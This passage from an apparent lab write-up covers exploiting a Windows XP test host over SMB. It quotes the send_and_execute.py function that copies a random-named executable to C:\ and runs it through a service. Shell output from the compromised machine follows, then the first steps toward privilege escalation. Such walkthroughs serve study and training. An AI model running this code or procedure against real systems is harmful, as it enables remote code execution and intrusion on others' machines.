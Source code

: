 C:\WINDOWS\system32>echo %userprofile%
echo %userprofile%
C:\Documents and Settings\LocalService
This exploits copies an executable over to the target’s C:\> and runs it. We can see this if we check the target’s root directory

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is EC2A-73ED

 Directory of C:\

09/23/2018  05:04 PM                 0 AUTOEXEC.BAT
09/23/2018  05:04 PM                 0 CONFIG.SYS
09/23/2018  05:11 PM    DIR          Documents and Settings
11/18/2018  06:56 PM    DIR          Downloads
02/24/2019  05:21 PM            73,802 EF6I56.exe
10/12/2018  11:58 PM    DIR          ImmunityLogs
09/23/2018  05:50 PM    DIR          MinGW
09/24/2018  08:35 PM    DIR          MinGW64
01/07/2019  12:47 AM    DIR          Program Files
02/24/2019  05:19 PM    DIR          PTP
09/29/2018  12:16 AM    DIR          Python27
09/29/2018  12:24 AM    DIR          rei
02/23/2019  11:01 PM    DIR          WINDOWS
               3 File(s)         73,802 bytes
              10 Dir(s)   6,647,250,944 bytes free
The code which does this in send_and_execute.py is highlighted below. You can see that previously the attacker would have to edit the smb_send_file and service_exec function to specify the location to copy the exec over and run the payload (EF6I56.exe above), now it just assumes C: root as target and takes the payload specified when calling the script, hence “send_and_execute.py”.

def send_and_execute(conn, arch):
	smbConn = conn.get_smbconnection()

	filename = "%s.exe" % random_generator(6)
	print "Sending file %s..." % filename


    #In some cases you should change remote file location
    #For example:
    #smb_send_file(smbConn, lfile, 'C', '/windows/temp/%s' % filename)
	#service_exec(conn, r'cmd /c c:\windows\temp\%s' % filename)    
	
	smb_send_file(smbConn, lfile, 'C', '/%s' % filename)
	service_exec(conn, r'cmd /c c:\%s' % filename)
Ok we’re not done yet. We still need to escalate to NT AUTHORITY, if not already. Let’s find a way to check whats our username. This proved to be more difficult than expected. whoami didn’t work. What is Local Service? I didn’t know.

C:\>echo %username% %computername% %userdomain%
echo %username% %computername% %userdomain%
%username% IVANWINXP %userdomain%

C:\>set
set
ALLUSERSPROFILE=C:\Documents and Settings\All Users
CommonProgramFiles=C:\Program Files\Common Files
COMPUTERNAME=IVANWINXP
ComSpec=C:\WINDOWS\system32\cmd.exe
FP_NO_HOST_CHECK=NO
NUMBER_OF_PROCESSORS=4
OS=Windows_NT
Path=C:\Python27\;C:\Python27\Scripts;C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem;C:\MinGW64\mingw32\bin;C:\Program Files\OpenVPN\bin
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_IDENTIFIER=x86 Family 6 Model 60 Stepping 3, GenuineIntel